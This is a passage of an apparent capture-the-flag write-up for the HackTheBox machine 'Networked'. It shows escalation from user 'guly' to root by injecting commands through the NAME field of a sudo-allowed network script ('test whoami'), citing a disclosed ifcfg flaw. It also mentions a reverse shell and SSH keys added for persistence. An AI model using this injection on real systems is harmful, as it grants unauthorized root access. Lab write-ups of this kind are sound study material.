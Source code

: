 ### We are now `guly`.

Now we have the ***user flag***.

At this point, I also [generated SSH keys](../Tips%26Tricks/Generating%20SSH%20Keys.md) for `guly`, and it worked! Now I have a more stabilized shell, and I can access the box as `guly` anytime incase I accidentally closed the reverse shell (and I need to wait 3 minutes to connect back).

## `guly` to `root`

The first thing I do is to check for sudo privileges.
```console
[guly@networked ~]$ sudo -l

[REDACTED]
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Looking at `/usr/local/sbin/changename.sh` doesn't shows us the vulnerability immediately. 
```sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
It has a regex limitation, we can't simply input characters to escape the command such as `;`, ``` ` ```, `|`, `&`, `>`, `<`, etc..

After **HOURS** of stucking here, I finally came across [this](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) article. It says:
> In my case, the NAME= attributed in these network scripts is not handled correctly. If you have white/blank space in the name the system tries to execute the part after the white/blank space. Which means; everything after the first blank space is executed as root.

That's it! We just have to run `/usr/loca/sbin/changename.sh` as `sudo` and then fill in junk data followed by a system command.
```console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test whoami
interface PROXY_METHOD:
test whoami
interface BROWSER_ONLY:
test whoami
interface BOOTPROTO:                                                                                                                                                                         
test whoami                                                                                                                                                                                  
```